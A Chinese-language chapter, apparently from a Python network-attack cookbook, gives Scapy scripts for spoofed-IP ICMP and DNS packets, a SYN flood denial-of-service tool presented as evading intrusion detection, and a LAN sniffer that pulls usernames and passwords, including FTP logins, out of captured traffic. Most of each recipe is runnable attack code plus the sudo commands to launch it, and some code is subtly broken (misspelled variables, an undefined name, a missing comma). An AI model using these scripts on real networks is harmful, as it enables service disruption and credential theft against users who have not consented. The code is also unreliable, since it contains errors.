


# 十一、TCP/IP 攻击

在本章中，我们将介绍以下配方：

*   IP 地址欺骗
*   同步泛洪
*   局域网上 Python 密码嗅探器

# 介绍

传输层是提供数据传递、流控制和错误恢复服务的层。两个主要的传输层协议是 TCP 和 UDP。在本章中，我们将讨论传输层中的一些常见攻击。

# IP 地址欺骗

有了 Scapy，我们可以简单地制作并发送数据包。因此，如果我们伪造并发送源地址，网络将接受并返回对伪造地址的响应。现在，我们可以创建一个脚本，用伪造的 IP ping 系统。

# 怎么做。。。

以下是创建脚本以使用伪造 IP 发送 ping 请求的步骤：

1.  创建一个`ip-spoof-ping.py`文件并在编辑器中打开它。

2.  然后，我们必须导入所需的模块：

```
from scapy.all import *  
```

3.  现在声明脚本的变量：

```
iface = "en0"
fake_ip = '192.168.1.3'
destination_ip = '192.168.1.5'  
```

4.  创建发送 ICMP 数据包的函数：

```
def ping(source, destination, iface):
    pkt = IP(src=source,dst=destination)/ICMP()
    srloop(IP(src=source,dst=destination)/ICMP(), iface=iface)  
```

这将创建以下数据包并启动发送/接收循环：


5.  开始发送伪造的数据包：

```
try:
    print ("Starting Ping")
    ping(fake_ip,destination_ip,iface)    
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

6.  现在，使用所需权限运行脚本：

```
sudo python3 ip-spoof-ping.py  
```

7.  现在我们可以尝试发送一个伪造的 DNS 查询。为此，创建另一个函数`dnsQuery()`：

```
def dnsQuery(source, destination, iface):
    pkt =IP(dst=destination,src=source)/UDP()/DNS(rd=1,qd=DNSQR(qname="example.com"))     sr1(pkt)  
```

这将创建以下数据包，并在发送/接收循环中开始发送：



8.  然后通过调用以下方法发送 DNS 查询：

```
try: 
    print ("Starting Ping")
    dnsQuery(fake_ip,dns_destination,iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

9.  如果我们可以监控受害者的`tcpdump`，我们可以看到 DNS 响应。

# 同步泛洪

SYN 洪泛是一种 DOS 攻击，使合法用户无法使用该服务。SYN 洪水攻击利用 TCP 协议的*三方握手*，其中客户端发送 TCP SYN 数据包以启动与服务器的连接，服务器使用 TCP SYN-ACK 数据包进行回复。然后，在正常操作中，客户机将发送 ACK 数据包，然后发送数据。这将在`SYN_RECV`状态下保持连接打开。但是，如果客户端没有应答 ACK 数据包，则连接将处于半开放状态。

如果多个攻击者或系统打开了与目标服务器的多个此类半开放连接，则可能会填充服务器的 SYN 缓冲区，并可能阻止其接收更多 SYN 数据包，从而导致**拒绝服务**（**DoS**攻击：



我们可以使用 Scapy 生成 synflood 数据包进行测试。

# 怎么做。。。

以下是创建脚本以生成 SYN 洪泛攻击的步骤：

1.  创建一个`syn-flooding.py`文件并在编辑器中打开它。
2.  然后，我们必须导入所需的模块：

```
from scapy.all import *  
```

3.  现在，声明变量：

```
iface = "en0"
destination_ip = '192.168.1.5'  
```

4.  定义创建和发送 SYN 泛洪数据包的函数：

```
def synFlood(destination, iface):
    print ("Starting SYN Flood")       packet=IP(dst=destination,id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
    ans,unans=srloop(paket, iface=iface, inter=0.3,retry=2,timeout=4)
    ans.summary()
    unans.summary()  
```

这里，随机值用于设置数据包中的 TTL 和 ID。如果服务器中存在任何入侵检测系统，这将有助于混淆身份。此外，源端口是由`randshort()`函数创建的随机值。

以下是创建的示例数据包：


5.  现在发送数据包：

```
try:
    synFlood(destination_ip, iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

6.  使用所需权限运行此脚本：

```
sudo python3 syn-flooding.py  
```

# 局域网上 Python 密码嗅探器

在前面的食谱中，我们已经学会了如何用 Scapy 嗅探数据包。现在我们可以使用 Scapy 嗅探和提取数据包中的内容。这可用于获取许多协议的详细信息。我们可以尝试从这些嗅探到的数据包中获取凭据。我们可以将此嗅探器与 ARP 中毒攻击绑定，以从网络上的其他机器获取详细信息。

# 怎么做。。。

以下是通过 LAN 编写密码嗅探器的步骤：

1.  创建一个`pass-sniffer.py`文件并在编辑器中打开它。
2.  导入所需的模块：

```
from scapy.all import *
from urllib import parse  
```

3.  现在声明接口的变量：

```
iface = "en0"
conf.verb=0  
```

4.  创建一个方法来检查嗅探内容中的用户名和密码：

```
def get_login_pass(body):    
    user = None
    passwd = None    
    userfields = ['log','login', 'wpname', 'ahd_username', 
'unickname', 'nickname', 'user', 'user_name',
    'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname',
    'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename',
    'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username',
    'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword', 
    'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword', 'login_password'
    'passwort', 'passwrd', 'wppassword', 'upasswd','senha','contrasena']    
     for login in userfields:
          login_re = re.search('(%s=[^&]+)' % login, body, re.IGNORECASE)
          if login_re:
              user = login_re.group()
      for passfield in passfields:
          pass_re = re.search('(%s=[^&]+)' % passfield, body, re.IGNORECASE)
         if pass_re:
             passwd = pass_re.group()    
     if user and passwd:
         return (user, passwd)  
```

在这里，我们使用数据中的关键字进行搜索，并提取有效负载中的用户名和密码（如果存在）

5.  现在，创建一个函数来解析嗅探到的数据包：

```
def pkt_parser(pkt):    
    if pkt.haslayer(Ether) and pkt.haslayer(Raw) and not pkt.haslayer(IP) and not pkt.haslayer(IPv6):
           pass       
      if pkt.haslayer(TCP) and pkt.haslayer(Raw) and pkt.haslayer(IP):
          pkt[TCP].payload
          mail_packet = str(pkt[TCP].payload)    
          body = str(pkt[TCP].payload)
          user_passwd = get_login_pass(body)
          if user_passwd != None:
              print(parse.unquote(user_passwd[0]).encode("utf8"))
              print(parse.unquote( user_passwd[1]).encode("utf8"))
      else:
          pass  
```

首先，我们将忽略没有 IP 层的原始数据包。然后我们得到 IP 层并提取有效负载，然后将其传递给`get_login_pass()`方法以提取凭证。

6.  现在，开始嗅探所提供接口中的数据包：

```
try:
    sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

7.  现在，使用所需权限运行脚本：

```
sudo python3 pass-sniffer.py  
```

8.  我们可以更新此脚本以提取 FTP 凭据，只需稍作修改：

```
if pkt[TCP].dport == 21 or pkt[TCP].sport ==21:
   data = pkt[Raw].load
   print(str(data))  
```

这将打印 FTP 数据。我们可以在上面运行正则表达式匹配来获取用户名和密码。